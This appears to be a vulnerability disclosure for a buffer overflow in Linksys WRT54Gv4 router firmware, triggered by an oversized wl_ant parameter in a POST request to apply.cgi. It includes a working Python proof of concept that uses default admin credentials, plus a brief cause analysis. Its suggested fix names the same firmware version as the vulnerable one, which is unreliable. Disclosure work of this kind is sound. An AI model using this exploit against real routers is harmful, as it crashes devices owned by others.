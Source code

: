# CVE Report - Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have a Buffer Overflow vulnerability in the Start_EPI function,which allows remote attackers to cause a web server crash via parameter **wl_ant**  passed to the binary through a POST request.



## POC

```python
import requests

url = f"http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": f"http://{ip}",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "StartEPI": "1",
    "wl_ant": "a"*1000,
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)
```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the wl_ant value.  After sprintf splicing, it enters v7 cause crash.![image-20250301101039879](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20250301101039879.png)

## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

